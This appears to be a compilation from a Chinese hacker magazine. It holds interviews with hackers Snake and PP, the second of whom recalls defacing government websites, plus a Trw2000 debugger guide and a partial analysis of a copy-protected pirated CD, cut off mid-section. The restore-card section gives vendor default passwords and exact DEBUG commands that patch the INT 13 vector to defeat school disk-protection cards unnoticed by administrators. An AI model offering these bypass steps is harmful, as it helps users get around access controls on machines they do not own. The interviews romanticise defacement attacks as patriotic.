99年底，买了一个Modem，56K的速度居然能上网，迷上了IRC聊天，学习IRC的脚本编写，然后写相关的通信程序。随着对网络知识面的广泛认识，我发现自己原来懂得很少。刚好，安络那个时候招人，我就进去了。在那里学习到更多的网络知识，特别是认识了rootshell，工作之余他教我安全，我和他一起编程序，嘿嘿，好玩。写了几个程序后，发现安全的高级编程应该是溢出程序。好在网上这方面的文章不少，国内很多高手都写了相应的原理、实践等文章，我也在上面学习到怎么写这类程序的技术；第一个程序出来以后，我坐在那里，看着得到的shell，呆了10分钟。结果是意料之中，可是，后来还是觉得意外！哈哈，刺激性太大了，让人吃惊。

去年开始，开始做项目，感觉开始转变，如何由一个人的工作方式，转变成组织一个团队进行协同工作，这中间的确有很多东西要学。书本上，很多example说了。但是，真正要用起来，还得……

X：有人说黑客技术是一门另类的艺术，你如何认为？

Snake：技术永远是艺术的另外一种体现。就好像程序代码，巧妙的代码让人感到赏心悦目，还会陶醉其中。黑客技术也是如此，精巧的攻击，让重重防守的设备和软件都变成摆设，过程绝对比创造艺术作品精彩。就好像我第一次听到第二希姆螺攻击，太高明了，简直为它折服。理论上提出的问题，就在现实中悄悄地上演。当然，黑客的艺术和狭义的艺术不一样，黑客的艺术在于攻击和共鸣，狭义的艺术是如何用动作来表现一个人或者群体的情感，例如画画、舞蹈、音乐。黑客的艺术是技术上的艺术，是一种动力的源泉，去到达另外一种熟练使用掌握中的技术的状态。

# 黑客人物面对面

自己体会。毕竟，认人为本！

X：作为一位优秀跳板程序的开发者，能给我们详细介绍一下跳板程序的原理吗？

Snake：跳板的原理很简单，假设你的朋友从你面前经过，你一下就认出来了。但是，如果你的朋友坐在车子里，玻璃又是有颜色的，在你面前经过，那你就认不出来了。

跳板只是将传输的数据定义一个规则，在传输的过程中进行包装而已。在开始的地方用比较通用的 SOCKS5 代理作为接口。

普通的代理都是将代理接口和代理末端在同一个程序里面实现。跳板将这两个头和尾分开，中间允许这个程序进行链接，和造路一样，设定固定的顺序，不断地将数据在这条路线中来回传输。因为是自己设计的程序，中间的接口、规则自己定义，感到很自由，也写得很开心。

X：跳板程序的负面影响带给你什么样的感觉？

Snake：正是因为跳板对数据具有包装和路线转向的功能，很多时候都被人用来做坏事。例如：利用它做代理进行攻击，从而达到隐藏自己原始地址的目的，或者用来上反动网站，进行一些破坏性行为。的确，看到这些觉得很遗憾，还有一些丝丝的伤感。开始开发跳板的目的，是想用来突破单位的 UDP 封锁上 OICQ 聊天，为什么采用加密呢？因为，早期的 OICQ 是对通信的消息不加密，害怕自己聊天内容被 Sniffer 并被别人看到，才加上加密的功能。但是，它反而被利用到那么多不合法的地方，这的确是我开始没有想到的。最后渐渐地停止了对它的开发。即使是改进，也仅仅对原来 Bug 的修改，不再增加新的功能，或者这种程序应该到此为止，除非其他特别的商业应用情况下。

X：如何评价你的跳板程序中积极的因素？

Snake：跳板体现的是一种创新的精神。即完全可以利用已知的技术，对各种数据包的封锁进行突破，例如：希望通过封锁 UDP 端口来禁止 OICQ 聊天。跳板的多级跳功能，可以作为初级 VPN 的工具，直接连通多个不相通的网络。很多巧妙的实现关键是看怎么发掘。

跳板的通路思想完全打破了以前的单一程序内实现的代理程序模式。技术的思路海阔天空，只要你想得到就可以实现。其实，跳板的接口还可以增加很多，例如：HTTP 代理接口功能、SOCKS4 代理功能、FTP 代理、SMTP 代理等。不过，现在的版本已经不打算再去增加。跳板的另外一个特点，就是采用了完成端口的技术。完成端口个人感觉技术上实现不难，但是在程序上采用，就代表着一个层次。完成端口，是高性能通信程序的一种别称，它将通信模块的接收部分和低层核心结合起来，性能提高了一个极大的层次。跳板可以说是作为自己书写完成端口程序的一个测试品。:)

X：在入侵检测工作中，跳板给进一步查找入侵者的来源造成了障碍，目前有没有什么办法突破跳板后面的入侵者？

Snake：这个问题我的确觉得很尴尬，我也不知道怎样用简单的方法来发现。除非你反向跟踪，一步一步地反向追查被作为跳板的肉机。

X：有用过你跳板程序的朋友提到，在局域网中没有合法 IP 的机器使用的时候，就变得非常不稳定了，经常是不能使用，这个问题该如何解决呢？

Snake：这个情况我还没有条件进行测试。不过，从技术的角度来看，好像不会发生。除非，被安装跳板的机器的 IP 本身不固定。

既然物理目标都没有办法定位，那么，逻辑上下一步的工作也没有办法进行了。

X：你的程序主要是用什么语言编写的？为什么比较偏爱这种语言？

Snake：我写程序都是用 Visual C，用它可以写短小、精湛、高效的代码。我是比较追求完美的人，包括过程、目的，都会用最好的东西来实现。VC 的好处我不多说了，否则会有给 MS 作广告的嫌疑。

X：网络编程需要掌握些什么基础知识呢？

Snake：两个方面，一是网络知识，各种协议的内容，包括低层的 TCP/IP 协议，高层的 HTTP、FTP、SMTP、POP 等。二是编程能力，无论用哪种语言，只要支持网络功能库，至少要掌握一种，或者 Perl、VB、VC 或 UNIX 下面的 C 等。

X：你在网站上说“写程序已经差不多三年了，在这个过程中，我会想，或找一些有意义的程序来写，写出来后，没有想过是否实用，或者别人喜不喜欢用，冒冒然地放到网上让人 download。现在改变了看法，不实用的程序就没有必要写，否则，算是浪费时间，不知你是否同意呢？”，但是没有经过实践检验的程序，是不好判断程序是实用还是不实用的，你是根据什么来判断的呢？

Snake：的确很难判断，只能是跟着感觉走。例如一个溢出程序，在构思的时候，写的过程中，写出来试用，都能够感觉它巨大的破坏性。实用的程序就是符合大多数人用的程序。不实用的程序并不代表不能用，只是很少人去用它。我以前写过一个多重启动系统，在一个硬盘上安装 8 个操作系统的，将硬盘分为 32 个主分区的程序，技术上感觉是有点难度，它在操作系统还没有开始运行之前，已经接管了 CPU、显示动画、提示用户选择系统、输入口令等。但是它的确不是很实用，用的人少，呵呵……可能只有我自己在用了！

X：编程工作既有成功的喜悦，也有枯燥的元素，你会一直坚持下去吗？

Snake：编程是我的兴趣和爱好。就好像看到美的事物，我为它着迷。写出好的代码，自己陶醉其中。看到自己写的质量低下的代码，便想破口大骂自己愚蠢。

这种感觉以后是跟着它走了。以后的事情说不准，希望有自己的一个空间和天地。到时候，是否有代码相伴左右就不要求了。

X：能给我们介绍一下蜜罐程序吗？你在工作中会不会也常编制一些这样的程序诱惑入侵者呢？

Snake：蜜罐是一个打扮得很巧妙的系统，不是一个小程序就可以做到的。它首先得可以欺骗自己，让自己都认为那是一个实实在在的系统。我其实平时比较少接触和研究入侵者。毕竟，开发占用了很多时间。

X：你能给我们读者介绍一下溢出的原理吗？编写溢出程序大致实现的步骤是什么？

Snake：溢出的原理，形象地说就好像并排的盒子；往其中一个盒子装东西，装满以后还要装，然后那个盒子破了，里面的东西被挤到另外的盒子，改变了另外的盒子的内容。等到要拿另外盒子的东西的时候，就拿到被挤进去的东西的内容了。换成计算机语言来说，就是将正常的内容，改成破坏性的内容，然后，巧妙地安排计算机去执行那段代码。实现的步骤说出来很简单。首先，让代码发生溢出，然后安排自己的代码到合理的位置，再更改 CPU 执行指令的地址，让它执行我自己的代码。具体的内容，不是这里的篇幅可以讲清楚的，有兴趣的读者可以到网上看相关的技术文章或者阅读相关的书籍。

X：下一步准备开发什么程序呢？

Snake：今年的大部分时间，都在开发公司的项目——商业风险评估系统。下一步，也不是很方便说。至于个人兴趣之类的程序，也只能说是有机会和实际需要。毕竟，商业行为可以更快地实现成功。

X：目前“黑客”这一名词在中国被片面地误解，请问你是如何理解黑客的含义？

Snake：我觉得这几年，黑客这一单词，在各种媒体上出现的频率算是很高的了，具体的文化由来、发展，也不用我多说了。我个人认为，黑客是一种个人主义精神。希望体现自己高超的技术，希望证明某个系统有弱点。至于这个基础上延伸的其他各种人群，例如，为了得到某种利益而利用相关的技术进行某些行为的，那是另一类“黑客”的称呼，已经变成了很多年的旧习了。不过，无可否认，黑客们钻研技术的努力和决心，就其精神来讲的确值得敬佩。

X：很多黑客出身的网络安全人员，都不太愿意回首自己作为黑客时的那段经历，能告诉我们这是怎样的一个心路历程呢？

Snake：其实，我在学习网络技术的过程中，作为破坏者的经历很少。删除破坏别人资料是没有做过的，顶多只关掉了别人的计算机。偷别人资料下载下来看看，好像不算偷吧！读书人偷书，不叫偷，只能是窃。我下载别人资料，看完了后删除，不留一些痕迹，好像也没有什么特别的破坏。只是，过后想想有点不好意思。

公司的高层领导说过一句话：黑客是矛，网络安全是盾。矛，可以是一根绣花针，只要盾存在一点点裂缝，都会导致被攻破。我们不是做矛，而是在做盾。方方面面都要做到，否则，一个小黑客拿着绣花针都可以让你败下阵。于是，自己在开发的同时有意识地去触及自己各个方面的知识，或者引导同事们掌握比较全面的知识。

X：在入门的过程中，你是如何提高自己技术水平的？

Snake：主要是靠自己学习。亲自动手，这是最主要的。很多技术点，自己动手尝试过后，就可以理解。我碰到不少初学者，很多简单的问题问了很多人。我就奇怪，他们为什么不自己尝试一下呢？要知道，尝试过程中得到的不仅仅是那个问题的答案。即便尝试失败，也未尝不是经验。日积月累，就会慢慢丰富自己的知识水平。

X：如果一个安全人员没有黑客经历的话，是不是会缺乏基本的实践基础呢？为什么？

Snake：黑客是追求技术，不是追求破坏或者其他目的。单单从技术角度上来看，入侵者进入别人的系统，但是又担心被别人发现，于是进行相关的掩饰活动。这个本身就是一个很丰富的技术课题。相关的环境不是自己可以模拟，只有通过实践才可以取得这种心理经历。要和那些人做斗争，就必须处于该状态中，了解他们的心理想法。当然，我不鼓励以这个为目的进行破坏性的攻击或者任何相关违法的活动。

X：你所接触到的存在安全问题的网络，什么隐患最突出？有什么建议？

Snake：说到底，还是管理安全的问题。简单地用流光扫描一下，可以发现不少有重大漏洞的机器，为什么？只要设置个复杂的口令，勤劳一点打补丁，就可以构建一个安全的平台。当然，还有很多应用安全级别的漏洞也要注意，各种应用软件在采用的时候多进行测试，在各个输入、输出的地方认真检查。

X：安全行业目前不太景气，对你有直接的影响吗？未来有什么打算呢？

Snake：影响肯定是有的，有时候还得为温饱发愁，呵呵，讲笑！不过，既然选择了这个行业，也只能以前的经历。我专注做产品，其他的相对来说不是很重要。未来不要做梦，我会积极地去迎接，社会这么大，只要自己认真付出，梦想总是可实现的。

X：也许你现在做的就是你所爱的事业，但是长期重复这一件事，总有一天会累的，总有一天会丧失当初的那种激情，不知道你是否遇到过这种情况？遇到过的话，那么，你是怎么再次燃起那份激情的？

Snake：这种感觉以前有过，以后也会有。但是，每个项目对我来说却是一种很大的吸引力。

我是追求完美的一个人，一个项目都会不断地对它进行改进。这个改进的过程中，总是感觉到完美的压力，同时也感觉到自己的追求。

不同的项目感觉更加是不一样，我很幸运，可以做自己喜欢做的项目，用代码将需求实现，而不仅仅是写代码的过程。

X：你的女朋友对你的工作如何评价（如果有的话）？

Snake：我觉得我在感情方面挺失败。我的性格有点追求完美，很多机会都给自己放坏掉了。以前的女朋友认为我工作比女朋友重要。我也不知道这对不对，反而觉得自己不是很会讨人欢心。

X：平时喜欢和朋友交流吗？都有什么业余爱好？

Snake：平时花在计算机上的时间反而是最多了。朋友不是很多，毕竟在深圳的朋友，平时都很忙，一般都电话联系。不过，君子之交淡如水，淡淡的也不会太累。后来是自己也常常觉得孤独了。假日就看书，一个很好的朋友送我一本《林语堂散文》，我觉得在思想上和他很有共鸣，几乎沉醉了。

X：很多读者可能会有一些问题需要向你咨询，怎样与你联系呢？

Snake：电子邮箱：Guest3323@21cn.com。我的 OICQ：65528，平时忙于开发，聊天时间很少。

# 中国黑客Ⅰ代——

不长的 9 年时间，中国黑客就出了三代，PP 作为中国第一代黑客代表人物之一，一直深受公众的关注。

这里给大家整理一份 PP（彭泉）的简单履历：

- 1996 至 1999 年，致力于入侵和反入侵技术的研究工作，组织成立了著名的湘南黑客小组——Chinahack。
- 1997 年，参与印尼屠华事件。
- 1999 年 5 月，领导美国事件。
- 1999 年 8 月，领导台湾事件。
- 2000 年 1 月，领导日本事件。
- 特长：
  - 精通各种计算机语言，专长于入侵和反入侵课题的研究，是国内掌握反黑客技术以及漏洞信息研发的高手。
- ……

整理这份简历时，我差点把“月薪要求”都填写出来了，因为格式和找工作时填写的简历一样哦。这里没有太多评述，请大家跟随我们的采访，来面对面深入了解这位国内黑客世界里的风云人物吧。

X：彭泉，你好！能简单地介绍一下自己吗？

PP：我出生于湖南，现在在深圳一家安全公司工作。过着和常人没有差别的生活，喜欢泡酒吧、爱好旅游，喜欢参加一些体育运动。可能唯一不同的是，我晚上工作的时间比较多，经常是 2、3 点钟才睡觉，甚至通宵工作。

X：通常熬夜主要做些什么呢？

PP：一个是一些白天没有完成的工作，通过晚上加班来完成；第二个就是响应一些紧急网络安全事件，还有就是自己多年的生活习惯吧。

X：你是什么时候开始接触黑客这一领域的？当你在学习黑客/安全技术和自己的学业或工作发生冲突时，你如何选择？

PP：我可以说是从 1996 年开始接触黑客领域的；当时还在读高中，那时的互联网很简单，于是我迷恋上了聊天（和大多数人一样），就在那里我知道了 Hacker 一词，学会了一些简单的知识，以及查聊天室别人的 IP、炸聊天室、偷论坛号，现在看来无聊的事情。在大学生活开始后，我将大部分时间都投入到了网络知识和网络安全知识的学习上，很少去上课，这个主要是因为兴趣指引吧。当时虽然很少从课堂上学到知识，但是，正是大学几年的学习和生活，教会了自己如何去学习和思考。应该说大学中我学到的是精华，所以大学还没有毕业，就开始和几个朋友创业，创建了目前国内有一定知名度的安全公司。我想，这也是我的一个收获。当然我也承认这样的学习方式，也让我失去了在高数和英语口语方面应该取得更好的成绩。但对于计算机专业英语来说，完全没有问题。

X：能给我们简单回顾一下你领导的几次黑客事件吗？

PP：这些事件网上传得比较多，作为我个人来说，不太愿意去回顾这段历史，因为现在看来，当时很幼稚和无知。但作为一个人的成长经历，从另一个角度来讲，也许这是一个自然的过程，但不是必须的过程。其实这几次事件都有很浓厚的爱国情结在里面，这有一定的积极意义。不过，回顾看来，中国的黑客群体也逐渐从这几次事件中成长起来。比如第一次针对印度事件的攻击是比较松散而零碎的，到了 1999 年 8 月 8 日的台湾“台独”事件，则显得比较有组织、有统一的行动规划了，当时一夜之间将台湾 28 个 GOV 站点的页面全部涂改，涂改成统一的页面。

X：有时需要测试产品的有效性，你们是如何做试验的呢？

PP：我们公司有自己的实验室，实验室提供丰富的试验环境，可以模拟绝大多数的系统环境，所以我们的试验不像一些人猜测的那样，到互联网上去进行。

X：一个黑客和安全人员有什么样的区别？

PP：简单地说，黑客他知道一个问题的存在，或者说是发现一个漏洞的存在，他可以对该漏洞很深入、很精通地去学习它。相对来说，一个安全人员则必须全面去了解所有存在的已知漏洞，并且懂得如何去组建一个完整的安全体系，并能根据具体环境构建安全模型。

X：一个常常被初学者问到的问题就是，应该去学习什么样的语言，如何选择？

PP：现在的计算机语言种类很多，常让学习者无从选择。其实我个人认为 C 语言绝对是首选。因为操作系统的鼻祖 UNIX 都是用 C 语言写出来的，因为没有 UNIX 就没有 TCP/IP，没有 TCP/IP 就没有今天这种繁杂的互联网。在学习 C 语言之前，必须打好一定的基础，比如计算机操作应用基础、网络基础等。学好了 C 语言，其他语言也就触类旁通了。

X：有没有担心过别人的技术超过你？如何看待工作中的竞争？

PP：这个担心我想是不存在的，倒不是我不担心别人超过我，而是说站在我的角度，只要去努力做好本职工作，这就够了。我不是个偏执狂，人不能完全为了技术的追求而放弃其他精神以及物质上的需求，我想适可而止是个很好的境界。

X：现在的网民大都“闻黑色变”。确实，国内部分媒体近年来已经片面地把 Cracker 和 Hacker 混为一谈了，你是如何理解 Hacker 的真正含义呢？

PP：英文本意 Cracker 是一个软件破解高手。而 Hacker 则是在某个领域钻研得很深的人，并不是特指计算机方面的高手；好比中国的古话：三百六十行，行行出状元，这个状元就是一个黑客。当然这个比喻也不完全对，比如黑客除了技术上追求至高境界外，他同时也得具有黑客精神，黑客精神就是无偿奉献的精神。对黑客的片面理解也导致了生活中的一些误会，比如一些人知道我的身份后，首先就问能不能帮我黑黑某个网站，或者是帮两招看看。我的回答是坚决不做“黑”网站的事。在转型为安全人员后，我们经常和一些公安部门、信息安全部门有密切的联系，通过和他们的交流，我也逐渐认识到安全人员保卫网络的职责，深切体会到网络安全的重要性。

X：这几年“黑客”经过媒体的大肆渲染，以及网络安全知识的普及，“黑客”这一神秘群落已经走下神坛，你如何理解黑客在现在社会中存在的价值？

PP：这是一种尴尬的生存状况，有些所谓的“黑客”是一些破坏别人的系统或是被商业利用的工具，这类缺乏基本道德的“黑客”我们从不提倡。同时，黑客本来作为一个普普通通的人，而一些媒体片面的不良报道，导致黑客一词本身被玷污，这个需要媒体给予公众正确的引导，这可能需要几年时间。

X：黑客技术已经是网络信息战争中应用的特殊手段，我国的网络安全技术已经发展到怎样的程度？作为中国黑客一代，对中国现阶段的黑客、安全状况有什么评价？

PP：目前中国信息安全方面的研发工作处于亚洲第一、国际领先的地位，当然比起美国、以色列等一些发达国家还有很大的差距。目前，我国很多大学都已经开设信息安全专业；5 年后，在网络信息安全方面的优势将会从这批受过相关教育的人身上体现出来。中国幅员辽阔，很复杂，一些地方领导也许还不知道信息安全的重要性，而一些领导知道安全的重要性，但是不知道如何来操作，不知道该如何入手操作安全项目。总体来说，需要几年安全知识普及工作。

X：网络安全行业近年来一直不景气，很多网络安全公司服务的主要对象是企事业单位，在目前市场低迷的背景下，网络安全公司有没有考虑过“军”转“民”，把目光放到更多需要网络安全的个人上网用户上呢？你认为网络安全公司的走向会如何？

PP：我们公司主要针对行业客户，不景气其实是暂时的。对于民用市场这块，已经有很多厂商在竞争了，比如很多知名的杀毒厂商比锐平的就开始开发个人安全这块市场，他们应该说已经占领了绝对的市场份额。而我们公司会继续针对行业客户做下去，我同时也希望国内的安全厂商能够强强联手，利用集团优势迅速建立起中国自己的安全市场体系。中国人的信息安全应该由中国人自己来做，我个人认为这对于我们自己将会有相当多的好处。同时也相信网络安全市场的前景也将会非常广阔。

X：网络攻击事件虽然已经不像以前那样能引起更多的关注了，但是攻击事件反而更显频繁，对于个人上网用户，你有什么好的建议让我们的个人上网用户更安全吗？

PP：我个人认为有三点：

- 第一，密码设置问题。很多用户从 98 升级到 2K 后，不了解安全问题，把登录密码设置为空，或者其他的弱口令，这是比较突出的问题。
- 第二，个人用户一定要经常升级，勤打补丁，这样可以避免一些新的安全隐患。
- 第三，安装一些个人版的防火墙和杀毒软件。

做到以上三点，基本可以 90% 地避免来自网络的安全隐患。

X：我们的读者来信询问，内联网安全体系如何建立？需要考虑哪些方面？

PP：内联网和外联网有一定的区别，但也有它们的共性，安络公司提出一个 CNNS 信息安全工程高级保障体系，可以参考一下。该体系分为七个层次：

- ① 实体安全
- ② 平台安全
- ③ 数据安全
- ④ 通信安全
- ⑤ 应用安全
- ⑥ 运行安全
- ⑦ 管理安全

针对内联网来说，第 2、5、6、7 点的问题最为突出；具体说起来将会很多，感兴趣的朋友可以在下面这个网页中得到比较全面的资料，这里我就不详细介绍了：

http://www.cnns.net/ppt/demo/cnns_files/frame.htm

X：追求更高的技术需要付出常人难以想象的艰辛，对于你的工作，你的家人能够理解吗？每当衡量得失的时候，是否也感慨万千？

PP：应该说，在高中我就喜欢通宵达旦地上网，我对于网络的兴趣很大，而在上学期间，学习成绩一直都不错，也曾担任班上干部和校学生会干部，重点中学读完又考上了重点大学，一直以来，家人都比较信任我，所以也支持我的发展。倒也没有失去什么重要的东西，或者说遇到过什么太大的波折，应该说我目前走的路还算顺畅。

X：在生活中是什么样的一种性格？这样的性格对你的工作帮助大吗？

PP：我的性格你应该也看出来了，很开朗、外向和随和吧。我就比较喜欢广交朋友，多个朋友多条路，朋友多了好办事，对于工作来说，也是有很大帮助的。

X：我们的读者如何联系你呢？

PP：我的 QQ 是 68861，E-Mail 是 pp@cnns.net 或者 chinahack@163.net。

# Trw2000

Trw2000 是中国人自己开发的一款动态调试工具，命令用法与 SoftICE 兼容，此外它还新增了许多功能，号称比 SoftICE 更加强大。现在有许多软件专门针对 SoftICE 做了防范，尽管有一些隐藏 SoftICE 的工具，但是效果并不一定很好，遇到这样的情况不如试用一下 Trw2000。尽管 Trw2000 的功能比较强大，但是根据本人的实际使用经验，其稳定性、兼容性与 SoftICE 还有较大差距。不过，还是很希望这款国人自己的调试软件能够继续发展，更加成熟。

## Trw2000 的安装

和 SoftICE 那将近 5 兆的庞大身躯比起来，Trw2000 就显得小巧多了，解压后的文件也不过几百 KB 而已。Trw2000 的安装更是简单，直接将其压缩文件解压到某个目录下就可以了，而且不需要重新启动系统就可以马上使用，其运行主程序是 TRW2000.EXE。

## Trw2000 的配置

Trw2000 的配置是通过 Trw2000.ini 文件实现的，和 SoftICE 的配置文件比较相似，你可以根据自己的爱好来定，但是通常使用默认配置即可。下面简单讲解一下配置文件：

```
跟 SoftICE 的 winice.dat 文件一样，分号“;”表示注释信息。

TRW2000 Initialize file
Please modify it as your habit.
rem PLUGS=C:\PLUGS\HELIO.SYS    TRW2000 可支持 plug-ins。
INIT="lines 35;wr 3;wd 4;wc 16"    初始化命令字符串

（以下为预定义功能键的作用）
F1=HELP    F1 键：帮助（命令长度不能超过 15 个字符，“HELP”为 5 个字符长度）
F3=SRC     F3 键：源程序/反汇编码切换
F4=RS      F4 键：Trw2000 界面/屏幕的画面显示切换
F5=X       F5 键：退出 Trw2000 窗口
F6=EC      F6 键：进入/退出代码窗口
F7=HERE    F7 键：程序运行到光标所在处
F8=T       F8 键：单步跟踪
F9=TBPX    F9 键：在光标所在位置设断点
F10=P      F10 键：单步执行（跳过子程序 CALL）
F12=PRET   F12 键：程序执行到 RET 指令处，即从子程序 CALL 中返回

HOTKEY=320D      Ctrl+M    系统 0 级方式激活热键
R3HOTKEY=310E    Ctrl+N    系统 3 级方式激活热键
GRAPHICS=ON      显示为图形模式
VESA=OFF         关闭 VESA 模式
VGA=ON           启用 VGA 模式
INTELMOUSE=ON    如果你的鼠标是 IntelliMouse，则打开这一项。
NORESCHANGE=OFF  不改变颜色模式
HST=256          历史缓冲区大小为 256KB
SYMBUFFER=1024   Symbol 缓冲区大小为 1024KB
CAPITAL=ON       屏幕显示大写代码
WONDER=ON        开启 Trw2000 界面底部的幻彩颜色效果
TESTMODE=OFF     关闭测试模式（当启动 Trw2000 出现死机时可以将这一项打开，Trw2000 会做些错误代码）
```

## Trw2000 的使用

运行 Trw2000.EXE 程序即可启动 Trw2000，其启动界面如图。“Load”和 SoftICE 的 Symbol Loader 作用一样，手动装载应用程序。

## 激活 Trw2000 两种方式

- 1. Ctrl+M 为权级 0 级的热键，能够在任何时候立即中断 Win9x，相当于 Soft-ICE 热键 Ctrl+D 的工作方式；
- 2. Ctrl+N 为权级 3 级的热键，这是我们最常用的模式，它可以中断 Windows 的特权级 3 级的前台线程。

Trw2000 的命令、用法和 SoftICE 兼容，基本上是一样的，所以有什么不懂的地方可以去参考 SoftICE 的有关资料。TRW2000 可支持 plug-ins，也可装载 DLL 文件，TRW2000 下有一个 DLL 目录，只要将需要加载的 DLL 文件拷贝进去就可以了。除了和 SoftICE 相同的地方，Trw2000 还有很多新的功能，具体参照其 README 文件。

## 15 秒内破解还原卡

还原卡这个东西现在好像很流行，特别是在很多学校，这可把同学们给“还原”苦了。不管你在机器上如何兴风作浪，如何肆无忌惮，一旦机器重启，照样一切重归平静，不着痕迹。

其实破解还原卡比破解 CMOS 还要快，操作上就几步。原理性的东西不便在这里多说，我们直接进入正题。破解的方法有二种，第一种破解率还可以，第二种好像是万能的，还没碰到破解不了的。

## 第一种方法

开机时（也就是在你曾经进入 CMOS 的时刻），同时按住“Ctrl”+“Home”键，这样你就进入了还原卡的密码输入窗口，只要输入正确的密码即可获得 admin 权限，以后随便你怎样设置。

一般还原卡都有默认密码，默认密码怎么找呢？很简单，到网上搜索关键字“还原卡”就行了。找到你用的那个牌子的还原卡，进入站点，在一个比较偏僻的角落一般可以找到默认密码。而一般机房管理员是不会修改其默认密码的，比如我们学校的是台湾远志牌的还原卡，默认密码是 12345678，小哨兵的是 manager，机房管理员一个也没改，好爽啊！注意不要改动任何东西。

如果管理员把密码改了呢？那我们就使用第二种方法。

## 第二种方法

此法实施过程看起来挺麻烦，不过熟悉了操作起来不过 15 秒钟。高手说：其实所谓硬盘保护卡就是在 ROM 中写了一段 HOOK INT 13 的程序，屏蔽了一些功能调用如 AH=3、5 等，在中断向量表中 INT 13 的 SEG、OFFSET 描述为 [13h*4+2]、[13h*4]。将此中的程序先保存后，再替换为自己的代码，当 AH=2 的时，它便会 call 原始 INT 13 地址来完成操作。只要找到原始 INT 13 入口便可为所欲为。不知看了这段感觉如何？

主要矛盾：关键是要找到原始的 INT 13 入口。  
测试操作系统：Win98  
测试对象：台湾远志还原卡  
测试目的：控制还原卡，但不破坏。  
注：本篇文章不对其实施过程中出现的任何不可预料的情况负责！

具体过程如下：开机过程中按住 F8 键，进入纯 DOS 环境。注：“;”后为注释。出现提示符 C:，键入：

```text
c:\debug
-a100
-xor ax,ax
-int 13
```

int 3。寻找原始的 INT 13 入口，然后输入 t 回车，不断地 T 下去，直到显示的地址如 F000:xxxx，后面指令为：mov dl,80。按 q 退出，记下这一地址，在 (0:13H*4)=0:4CH 处填入这个地址。

例如我得到的地址是 F000:9A95，再次运行 debug，键入：

```text
-e 0.4c 95 9A 00 F0
-q
```

e 的作用是将数据“95 9A 00 F0”写入地址 0:4C 开始的字节中。

注：玩的时候要存档，续档的话会死机。OK，破解完成，这时在提示符 C:\ 键入：

```text
c:\win
```

进入 Win98 系统即可。在 Win98 系统中的一切操作随着下一次的启动都会被还原卡存储起来。不过下一次进入系统的时候你还是需要重写地址 0:4C，才可以让还原卡存储你的东西。这时只需要在纯 DOS 下进入 debug，键入：

```text
-e 0,4c 95 9A 00 F0
-q
```

搞定。只有你才是这台机子真正的主人了，其他人使用还是会受到还原卡的限制，这样管理员也不会轻易发现被破解的异常。

# 神秘园

## 黑客X档案2002-2003年合订本

买了一张 D 版光盘，盘号是“HHH-071”，名为“迪斯尼卡通电影歌曲精选集”。查看了一下光盘属性，大小为 589MB，但是能看到的文件大小只有 43.2MB，看起来它的东西已经被隐藏起来了。

好了，下面我们就研究一下该光盘的保护技术，我们先看一下光盘的目录结构（例中 E 盘为光驱）：

```text
E:\>dir /a
Volume in drive E is 89400
Volume Serial Number is 245D-8CAF
Directory of E:\

AUTORUN  INF      29      11-06-99  11:43  Autorun.inf
DATA     <DIR>            03-13-00  20:57  data
HTML     <DIR>            03-13-00  20:57  html
SETUP    EXE   486,912    03-13-00  20:27  Setup.exe

2 file(s)       486,941 bytes
2 dir(s)                0 bytes free
```

| 名称 | 类型 | 大小 | 日期 | 时间 | 备注 |
|---|---|---:|---|---|---|
| DATA | CAB | 26,742,189 | 08-02-99 | 16:50 | data |
| DISK1 | ID | 5 | 03-29-99 | 21:31 | DISK1 |
| LIN_JING | ING | 33,376 | 01-17-99 | 10:35 |  |
| SETUP | EXE | 140,800 | 07-06-98 | 0:00 | setup |
| SETUP | INI | 29 | 03-29-99 | 21:31 | SETUP |
| SETUP | INS | 68,967 | 06-06-97 | 1:26 |  |
| SETUP | ISS | 482 | 03-29-99 | 21:31 |  |
| SETUP | LST | 5,235 | 12-30-99 | 13:39 |  |
| SETUP | PDF | 907 | 03-29-99 | 21:31 |  |
| SETUP | PKG | 268 | 03-29-99 | 21:31 |  |
| SYSTEM | CAB | 8,662,566 | 08-02-99 | 16:50 | system.cab |
| UNSTUB | EXE | 17,920 | 06-07-96 | 11:19 | UNSTUB.EXE |
| INST32I | EX | 320,411 | 01-18-97 | 12:04 | INST32I.EX |
| ISDEL | EXE | 8,192 | 09-07-95 | 20:22 | ISDEL.EXE |
| _SETUP | 1 | 1,437,825 | 03-29-99 | 21:31 | _SETUP.1 |
| _SETUP | DLL | 6,128 | 12-19-96 | 17:03 | _SETUP.DLL |
| _SETUP | LIB | 224,649 | 03-29-99 | 21:31 | _SETUP.LIB |

运行 setup.exe，弹出一个窗口，要求输入姓名、公司和序列号。姓名和公司是随意输入的，序列号也是固定的，我们可以从盘面看到，为“138888”。其实对于熟悉软件破解的人知道，使用 W32Dasm 很容易搞定这种软件保护方法。通过实验我们知道，输入正确的序列号会显示出一个类似文件管理器的窗口，从中我们可以看到所有的音乐文件，然后可以选择播放，其实这还是运行了一个隐藏的应用程序，从后面的分析中我们知道是 HcsSee.EXE。如果输入了错误的序列号，就提示“该序列号无效，请查输入的是否与 CD 封套上的序列号一致”，再次输入就会运行“闪眼”安装程序，该安装程序位于 data 目录中，我们看看里面有什么：

```text
E:\data>dir /a
Volume in drive E is 89400
Volume Serial Number is 245D-8CAF
Directory of E:\data

text
SETUP.LIB
网眼        CAB      2,308,440   12-30-99   13:39   网眼
CAB
18 file(s)   39,978,389 bytes
2 dir(s)     0 bytes free

text
WINAMP.m3u
WINAMP   QI      5,927   07-05-99   10:12   WINAMP
q1
XYC      EXE     721,920   11-07-99   12:38   ayc.exe
9 file(s)   2,129,681 bytes
5 dir(s)    0 bytes free
```

没什么特别的东西。通过上面的分析，我们应该知道运行一次 setup.exe 只有一次输入序列号的机会。进一步的分析，我们会发现在正确的序列号后，会在“C:\Program Files\Accessories”下生成一个文件“mima.dll”，是否注册就是靠这个文件来判断的，也就是所谓的“Key File”保护技术。

好了，下面我们谈谈怎么知道那个程序名的（HcsSee.EXE），方法有三种，如下所示：

- 1. 利用 W32Dasm 静态分析 setup.exe 程序
- 2. Ctrl+Alt+Del，看看什么程序在运行，啊啊……
- 3. File Monitor 监视文件操作

不仅如此，我们还发现了该光盘上的一个隐藏目录，看看：

```text
E:\>cd \
E:\>dir /a
Volume in drive E has no label
Volume Serial Number is 245D-8CAF
Directory of E:\

<DIR>
<DIR>

0 file(s)         0 bytes
2 dir(s)          0 bytes free

E:\>cd /
E:\>dir /a
Volume in drive E has no label
Volume Serial Number is 245D-8CAF
Directory of E:\

<DIR>
<DIR>
AAA    <DIR>   03-13-00   20:57   aaa
0 file(s)         0 bytes
3 dir(s)          0 bytes free
```

有一个隐藏目录 aaa 呀，我们再进去看看：

```text
